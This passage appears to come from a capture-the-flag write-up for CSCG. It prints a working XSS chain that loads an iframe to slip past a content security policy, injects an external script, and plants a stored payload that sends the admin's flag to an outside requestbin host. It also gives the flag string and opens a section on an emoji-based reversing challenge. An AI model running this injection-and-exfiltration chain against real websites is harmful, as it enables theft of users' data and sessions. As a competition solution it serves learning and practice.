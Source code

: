 To explain the script:

```javascript
var d=document,i=d.createElement('iframe');
// we load an error page because it has no CSP
i.src='//xss.allesctf.net/x';
d.body.appendChild(i);
i.onload=function(){
  var cd=i.contentDocument,s=cd.createElement('script');
  s.src='<external script src goes here>';
  // we execute our external script inside the iframe
  cd.body.appendChild(s)
};
```

And here's what the external script does:

```javascript
const token = window.parent.document.getElementById('stage2').href.split('=')[1];
const sendFlag = 'fetch("https://enkax9xfi93l.x.pipedream.net?flag="+$("b")[1].innerText, {mode:"no-cors"})'
fetch("http://stage2.xss.allesctf.net/?token=" + token,
  {
    mode:'no-cors',
    method:'POST',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'bg='+encodeURIComponent('innerHTML"><a id=backgrounds><script>'+sendFlag+'</script></a><img x=\''),
    credentials: "include"
  });
window.parent.location = "http://stage2.xss.allesctf.net/?token="+token;
```

When we submit our crafted link, the admin clicks it, they run our JS which posts the malicious payload to the background endpoint, then redirects them to the second page where our payload is executed and the flag is sent to our requestbin server.

```
CSCG{c0ngratZ_y0u_l3arnD_sUm_jS:>}
```

<a id="markdown-evmoji-reversing" name="evmoji-reversing"></a>
## eVMoji (reversing)

This is the single challenge I spent the most time on - I don't have experience with reversing challenges and I wasted a lot of time trying to brute force parts of the problem instead of decompiling or disassembling the binary to understand what it does. I wrote code several times to generate emoji programs, execute all the variants and capture their output, and from that output I figured out what most of the instructions do. Only when I got stuck at the end figuring out what's happening to the final four bytes did I start looking in the binary.

I wrote code to translate from the emoji representation to a textual form so I could edit it easily. I quickly figured out the instructions that trigger console I/O and I started playing with them to understand what the numbers meant.
